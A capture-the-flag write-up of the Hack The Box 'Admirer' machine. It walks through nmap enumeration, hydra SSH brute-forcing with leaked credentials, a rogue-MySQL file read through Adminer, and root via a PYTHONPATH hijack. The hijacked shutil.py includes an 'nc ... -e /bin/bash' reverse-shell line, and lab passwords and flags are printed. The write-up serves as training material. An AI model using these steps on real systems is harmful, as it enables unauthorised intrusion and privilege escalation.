


# HTB - Admirer

## Overview


An easy difficulty Linux machine that has an interesting take on database manipulation to obtain a local file inclusion vulnerability.  It also has an interesting new \(to me\) way to leverage sudo privileges to gain privilege escalation.  In all, this was a fun machine that taught me some interesting new tricks!

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.187`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/admirer$ nmap -p- -sCV -oA admirer 10.10.10.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 14:20 EDT
Nmap scan report for 10.10.10.187
Host is up (0.057s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)                                      
80/tcp open  http    Apache httpd 2.4.25 ((Debian))                                                   
| http-robots.txt: 1 disallowed entry                                                                 
|_/admin-dir                                                                                          
|_http-server-header: Apache/2.4.25 (Debian)                                                          
|_http-title: Admirer                                                                                  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .        
Nmap done: 1 IP address (1 host up) scanned in 51.54 seconds
```

Looking at the results of my nmap scan I saw that only ports 21 \(FTP\), 22 \(SSH\), and 80 \(HTTP\) were open.  

```text
zweilos@kali:~/htb/admirer$ ftp 10.10.10.187                                                      
Connected to 10.10.10.187.                                                                           
220 (vsFTPd 3.0.3)                                                                                   
Name (10.10.10.187:zweilos): anonymous                                                               
530 Permission denied.                                                                               
Login failed.
```

I started out by trying to log into FTP, but it did not allow anonymous access.


Next, I opened a browser to see what was being hosted over HTTP and found a website of someone who was an "Admirer of skills and visuals".  There did not seem to be anything useful on the site itself.

### robots.txt


Nmap pointed out that there was a `robots.txt` file, so I checked it out.  I found a potential username `waldo` and also a folder `admin-dir`.  


Navigating directly to that page gave me an access forbidden error, so I fired up Dirbuster and ran it on this directory.  This led me to a few useful sounding files: `contacts.txt` and `credentials.txt`. 

```text
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

The file `contacts.txt` contained some more potential usernames and a potentially useful email address format. I also noticed that `waldo` seemed to be a fan of The Big Bang Theory tv show, which could also be useful information. 

```text
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

`credentials.txt` contained credentials for a few services, so I added them to my `users` and `passwords` files.  

## Initial Foothold

Next I used `hydra` to attempt a brute-force attack against SSH to see if any of the credentials would allow me to log in.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 15:40:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:10/p:3), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 15:40:38
```

The FTP credentials seemed to also work for SSH! However, the connection was closed immediately upon logging in.  After trying various ways to bypass this and failing, I moved on to try the credentials for FTP instead.

```text
zweilos@kali:~/htb/admirer$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:zweilos): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

Using the ftp credentials, I was able to log into the FTP server.  I found a few interesting files and exfiltrated them back to my machine for analysis.

### The database backup


The file `dump.sql` contained a dump of the website database. Unfortunately,  it seemed as if the only useful information was the server version information and the database name and the name of a deleted table that looked to contain website files. I thought that this information could come in handy so I made note of it.

* **Database:** admirerdb
* **Table**: items \(deleted\)
* **Version**: MySQL dump 10.16 Distrib 10.1.41-MariaDB, for debian-linux-gnu \(x86\_64\)


The `Employees3` table had another list of potential usernames and email addresses that I added to my lists.

### Back-end code backup



After fully checking out the database, I moved on to the file `html.tar.gz`. I decompressed the tar file with `gunzip` and found that it contained a backup of the website's back-end code, including a very interesting PHP file called `admin_tasks.php` in the `/utility-scripts/` folder. 


This file looked like a nice little backdoor that the admin had left for me called the "Admin Tasks Web Interface \(v0.01 beta\)". I was very interested in options 4 through 7, which could potentially give me very sensitive system information.  


in the same folder was `db_admin.php` which contained another set of credentials, this time for the user `waldo` who I had seen in the `robots.txt`. 


There was also another password for `waldo` in the `index.php` file.  This also referenced the `items` table that had been deleted from the database I exfiltrated.  If I could get a web shell into this table, the page would run it for me when the page loaded.

```text
User-agent: *

# This folder contains personal stuff, so no one (not even robots!) should see it - waldo
Disallow: /w4ld0s_s3cr3t_d1r
```

Inside this HTML backup was a different version of the `robots.txt`.  This time the disallowed folder was called `/w4ld0s_s3cr3t_d1r/`, which I had access to as a folder in the backup.  This folder contained the files `contacts.txt` and `credentials.txt` which appeared at first to be the same as before.

```text
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

The `credentials.txt` had most of the same information as before, but `waldo` seemed to have left his bank account password in this one.  Despite finding a couple more passwords, none of these worked for logging into SSH for any user.


I navigated to `http://10.10.10.187/utility-scripts/admin_tasks.php` which brought me to a website for running administrative tasks on the server.  


I didn't find much useful other than the fact that the page was running in the context of the `www-data` user. 


I tried to run the disabled scripts, which gave the message:  `Insufficient privileges to perform the selected operation.`


After I checked back on my Dirbuster scan of the `/utility-scripts/` folder, I noticed it had found a new page `adminer.php` where I found an adminer database management portal. 


I noticed the version was 4.6.2, though the page said right next to it that there was a version 4.7.7 available to download. A search for adminer 4.6.2 exploit brought me to [https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability). This led to [https://sansec.io/research/sites-hacked-via-mysql-protocal-flaw](https://sansec.io/research/sites-hacked-via-mysql-protocal-flaw), which in turn linked to a MySQL exploit on GitHub at [https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue\_mysql\_server.py](https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py).  I also found a few other references that gave a pretty clear picture of how to exploit this particular web SQL management portal.

* [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) 
* [https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

To sum all of this up, the easiest way to exploit this portal is to set up a local MySQL database and have the remote server connect to it.  I found instructions for how to do this at [https://www.microfocus.com/documentation/idol/IDOL\_12\_0/MediaServer/Guides/html/English/Content/Getting\_Started/Configure/\_TRN\_Set\_up\_MySQL\_Linux.htm](https://www.microfocus.com/documentation/idol/IDOL_12_0/MediaServer/Guides/html/English/Content/Getting_Started/Configure/_TRN_Set_up_MySQL_Linux.htm)

## Road to User

### The rogue MySQL server

I did a bit more research to figure out exactly how to set up the MySQL database.  The following articles gave me the last bits of information I didn't already know \(specifically, how to create a user and assign it permissions\).

* [https://www.liquidweb.com/kb/create-a-mysql-user-on-linux-via-command-line/](https://www.liquidweb.com/kb/create-a-mysql-user-on-linux-via-command-line/) 
* [https://www.liquidweb.com/kb/grant-permissions-to-a-mysql-user-on-linux-via-command-line/](https://www.liquidweb.com/kb/grant-permissions-to-a-mysql-user-on-linux-via-command-line/)

```text
zweilos@kali:/etc/mysql/conf.d$ service mysql start
zweilos@kali:/etc/mysql/conf.d$ sudo su -
root@kali:~# mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 52
Server version: 10.3.23-MariaDB-1 Debian buildd-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> create database admirer
    -> CHARACTER SET utf8 COLLATE utf8_unicode_ci;
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| admirer            |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.000 sec)

MariaDB [(none)]> create user 'test' identified by 'test';
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> grant all on *.* to 'test';
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> commit;
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> use admirer
Database changed
MariaDB [admirer]> create table test(users varchar(255));
Query OK, 0 rows affected (0.005 sec)
MariaDB [admirer]> commit;
Query OK, 0 rows affected (0.000 sec)
MariaDB [admirer]> exit
Bye
root@kalimaa:~# exit
logout
```

After creating the database and a table called `admirer`, I created a user named `test` and gave it full permissions to manage the database.  

```text
zweilos@kali:/etc/mysql/mariadb.conf.d$ ls
50-client.cnf  50-mysql-clients.cnf  50-mysqld_safe.cnf  50-server.cnf
zweilos@kali:/etc/mysql/mariadb.conf.d$ sudo vim 50-server.cnf
```



Next I had to set the binding for the server to the address `0.0.0.0` so that the external service could connect to it by my IP.  The default is `127.0.0.1` which is localhost only.

```text
zweilos@kali:/etc/mysql/conf.d$ service mysql stop
zweilos@kali:/etc/mysql/conf.d$ service mysql start
```

After changing the server `bind-address` setting to `0.0.0.0` I had to restart the `mysql` service for it to take effect. After that I was able to login to my database in the Adminer portal.


### Finding user creds

This bug bounty write-up detailed what I needed to do next. Essentially, I logged into the remote server's database management portal, but it was my own local database that I logged into.  After that, I abused a feature of MySQL that allows for local files to be imported into the database.  This is a type of local file inclusion \(LFI\) vulnerability.  

* [https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

```text
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE admirer.test
FIELDS TERMINATED BY "\n"
```


To test for the local file inclusion vulnerability I first tried to get `/etc/passwd` but was denied access to that file. Since I was fairly sure that this portal was still only running in the context of `www-data` I decided to try to get a file I knew I could access: `index.php`.


I wasn't even sure that this was going to work, but to my surprise it retrieved the file and added it to my database. I now had a way to read through the source code of the production website as opposed to the backups I downloaded earlier.


Much to my surprise...there was yet again another password contained in this file. Before trying to download any more files I decided to try to brute force SSH login again with this new password.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 22:49:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:11/p:7), ~5 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 22:50:00
```

I had finally found a usable password for `waldo`!  I hoped that it wouldn't just kick me out like it had with `ftpuser`. 

### User.txt

```text
zweilos@kali:~/htb/admirer$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3

waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
e9d47e5a8ef5972c07c9a8adb1a2af9a
```

Luckily it logged me right in, and I was able to collect my hard-earned loot!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as user `waldo`

```bash
waldo@admirer:~$ id && hostname
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
admirer
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

One of the first things I always do when gaining access to a new user is to check what privileges I have with `sudo -l`.  I was pleasantly surprised to get a result back that I was able to do something with a bash script called `admin_tasks.sh`.  I was curious about what this script did, and also what the group `admins` could access.  

```text
waldo@admirer:~$ find / -group admins 2>/dev/null
/opt/scripts
/opt/scripts/backup.py
/opt/scripts/admin_tasks.sh
```

Hmm...so the admins group only has access to this `scripts` folder.  Time to check out the bash script.

```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

This bash script seemed to be a completed version of the PHP version of admin-tasks I had seen earlier.  Inside the script it references a few other files:

* `/opt/scripts/backup.py`
* `/srv/ftp/dump.sql` - _this is the one I found through the ftp server I think_
* `/var/backups/dump.sql`

```bash
waldo@admirer:/opt/scripts$ sudo ./admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 3
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/3 * * * * rm -r /tmp/*.* >/dev/null 2>&1
*/3 * * * * rm /home/waldo/*.p* >/dev/null 2>&1
```

I ran the option for viewing the root crontab and noticed that it was set to clear out files every 3 minutes.  It looked like putting files in `/tmp/` or files with an extension starting in `p` in `waldo`'s home directory would be a short-lived affair.  

```text
waldo@admirer:/opt/scripts$ ls -la /var/backups/
total 6472
drwxr-xr-x  2 root root      4096 Sep 27 23:38 .
drwxr-xr-x 12 root root      4096 Nov 29  2019 ..
-rw-r--r--  1 root root     40960 Apr 22 11:32 alternatives.tar.0
-rw-r--r--  1 root root      2156 Nov 29  2019 alternatives.tar.1.gz
-rw-r--r--  1 root root     13080 Apr 16 13:29 apt.extended_states.0
-rw-r--r--  1 root root      1461 Nov 29  2019 apt.extended_states.1.gz
-rw-r--r--  1 root root       280 Nov 29  2019 dpkg.diversions.0
-rw-r--r--  1 root root       160 Nov 29  2019 dpkg.diversions.1.gz
-rw-r--r--  1 root root       160 Nov 29  2019 dpkg.diversions.2.gz
-rw-r--r--  1 root root       160 Nov 29  2019 dpkg.diversions.3.gz
-rw-r--r--  1 root root       160 Nov 29  2019 dpkg.diversions.4.gz
-rw-r--r--  1 root root       218 Nov 29  2019 dpkg.statoverride.0
-rw-r--r--  1 root root       188 Nov 29  2019 dpkg.statoverride.1.gz
-rw-r--r--  1 root root       188 Nov 29  2019 dpkg.statoverride.2.gz
-rw-r--r--  1 root root       188 Nov 29  2019 dpkg.statoverride.3.gz
-rw-r--r--  1 root root       188 Nov 29  2019 dpkg.statoverride.4.gz
-rw-r--r--  1 root root    422248 Apr 16 13:30 dpkg.status.0
-rw-r--r--  1 root root    128737 Apr 16 13:30 dpkg.status.1.gz
-rw-r--r--  1 root root    128737 Apr 16 13:30 dpkg.status.2.gz
-rw-r--r--  1 root root    123388 Dec  1  2019 dpkg.status.3.gz
-rw-r--r--  1 root root    122709 Nov 29  2019 dpkg.status.4.gz
-rw-r--r--  1 root root      3694 Sep 27 23:38 dump.sql
-rw-------  1 root root       840 Dec  2  2019 group.bak
-rw-------  1 root shadow     691 Dec  2  2019 gshadow.bak
-rw-r--r--  1 root root   5552679 Dec  4  2019 html.tar.gz
-rw-------  1 root root      1680 Dec  2  2019 passwd.bak
-rw-------  1 root shadow    1777 Apr 22 11:42 shadow.bak
```

I was also able to run the script to backup the SQL database, `/etc/passwd`, and `/etc/shadow`. Unfortunately, each of the backup files were owned by `root` so I had no way to read them.  

```bash
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

The one function that looked a bit different from the others was the one that backed up the HTML files for the website.  This one called a separate python script, which would also be run as root, so I decided to check it out as well.

```python
!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

The file `/opt/scripts/backup.py` that the bash script referenced to do the web backup contained code that seemed potentially useful. 

### SETENV and sudo

I had an idea that since this python script was being run as root that maybe I could get it to read a file of my choice, however all of the files referenced in the python script has absolute paths so no no hijacking seemed possible there. 

I did some research for `sudo setenv python` since I saw in my `sudo -l` output the word `SETENV` listed in front of the bash script I could run. In the search results was a very interesting article that talked about hijacking python library imports. 

* [https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root](https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root) [https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

> SCENARIO 3: Redirecting Python Library Search through PYTHONPATH Environment Variable
>
> The PYTHONPATH environment variable indicates a directory \(or directories\), where Python can search for modules to import.
>
> It can be abused if the user got privileges to set or modify that variable, usually through a script that can run with sudo permissions and got the SETENV tag set into /etc/sudoers file.

This sounded exactly like the situation I had found.

```python
import os

def make_archive():
    os.system('/bin/bash')
    os.system('echo I am g`whoami`')
```

Armed with this information, I wrote a short python library to replace the one referenced in the script.  I named it `shutil.py` so the script would call it instead of the real one, and also made a function named `make_archive()` since this was what was specifically being imported.  I wrote my function so that it would create a bash shell, and then echo my new username.  

```python
waldo@admirer:/dev/shm$ vi shutil.py 
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 3, in <module>
    from shutil import make_archive
ImportError: cannot import name 'make_archive'
whoami
waldo
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 12, in <module>
    make_archive(dst, 'gztar', src)
TypeError: make_archive() takes 0 positional arguments but 3 were given
whoami
waldo
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

After trial and error, I was able to get my library to be loaded and executed, though I did not get a shell like I expected. However, I could see that the output of the `whoami` command did appear, so I had proof that I could run commands as root. 

I got an error when trying to exploit this with version one of my evil python library, but that error also confirmed that I was making progress. It told me that my `make_archive()` function takes 0 positional arguments but the script that was calling it was feeding it three.

```python
import os

def make_archive(a, b, c):
    os.system('/bin/bash')
    os.system('echo I am g`whoami`'')
    os.system('nc 10.10.15.57 12345 -e /bin/bash')
```

I modified my function to take 3 arguments \(which I didn't use for anything\), and also added a line to send me a reverse shell since calling a new shell wasn't working, and then it worked just fine. I didn't expect the version of `nc` that was installed to have `-e` capability, but I was happy it did!

```python
waldo@admirer:/dev/shm$ nano shutil.py 
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

### Root.txt

```text
zweilos@kali:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.187] 60956
whoami
root
cat /root/root.txt
0f4b44fb50b2c25de7e1464a2ea8b877
```

Thanks to [`polarbearer`](https://www.hackthebox.eu/home/users/profile/159204) and [`GibParadox`](https://www.hackthebox.eu/home/users/profile/125033) for creating this fun and interesting machine that taught me some new ways to take advantage of some common vulnerabilities and misconfigurations.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

